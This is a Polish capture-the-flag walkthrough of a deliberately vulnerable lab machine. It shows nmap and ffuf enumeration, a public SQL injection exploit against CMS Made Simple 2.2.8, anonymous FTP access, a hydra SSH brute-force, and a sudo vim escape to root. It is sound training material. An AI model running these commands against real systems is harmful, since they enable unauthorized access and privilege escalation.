

# EasyCTF
IP=10.10.123.62

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -sV -sC 10.10.123.62 
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-04 13:31 EDT
Nmap scan report for 10.10.123.62
Host is up (0.047s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.231.66
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 43.26 seconds
```

Zostały wykryte trzy porty, w tym dwa poniżej portu 1000. Na najwyższym wykrytym porcie 2222 działa usługa SSH.

## Skanowanie

### Port 80 (pierwsza droga do zdobycia flag)
Rozpoczynamy od sprawdzenia portu 80:


Jest to domyślna strona Apache'a. Przechodzimy do enumeracji katalogów za pomocą narzędzia ffuf:

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://10.10.123.62/FUZZ -c
```


Na podstronie "simple" znajdujemy wersję aplikacji:



```
CMS Made Simple version 2.2.8
```

Znajdujemy [exploit'a](https://www.exploit-db.com/exploits/46635) SQL Injection (sqli) o numerze CVE: 2019-9053, kóry pozwala na uzyskanie loginu i hasła:


Gdyby ten exploit nie działał należy pobrać tego [exploit'a](https://github.com/e-renna/CVE-2019-9053/blob/master/exploit.py).

## Eksploitacja

Nadajemy skryptowi uprawnienia do wykonywania i odpalamy go z odpowiednimi opcjami:

```
python3 csm_made_simple_injection.py -u http://10.10.123.62/simple/ -w /usr/share/wordlists/rockyou.txt --crack
```

Po chwili uzyskujemy dane do logowania:


```
mitch:secret
```

### Port 21 (druga droga do zdobycia flag)

Logujemy się do serwisu FTP i pobieramy znalezioną tam notatkę:


Dowiadujemy się, że użytkownik Mitch ma słabe hasło:


## Eksploitacja

Łamiemy hasło do serwisu SSH na porcie 2222 za pomocą hydry:

```
hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://10.10.123.62
```


```
mitch:secret
```

### Port 2222

Logujemy się do serwisu SSH za pomocą znalezionych danych:


W katalogu domowym użytkownika mitch znajdujemy pierwszą flagę:


```
G00d j0b, keep up!
```

W systmie znajduje się też inny użytkownik:


## Zwiększenie poziomu uprawnień

Sprawdzamy uprawnienia użytkownika mitch w systemie:


Widzimy, że prawdopodobnie będziemy w stanie podnieść swoje uprawnienia za pomocą komendy vim. Znajdujemy [exploit'a](https://gtfobins.github.io/gtfobins/vim/) i wykorzystujemy go, aby uzyskać uprawnienia root'a:


```
sudo vim -c ':!/bin/sh'
```

W katalogu domowym użytkownika root znajdujemy drugą flagę:


Do zobaczenia na kolejnych CTF-ach!
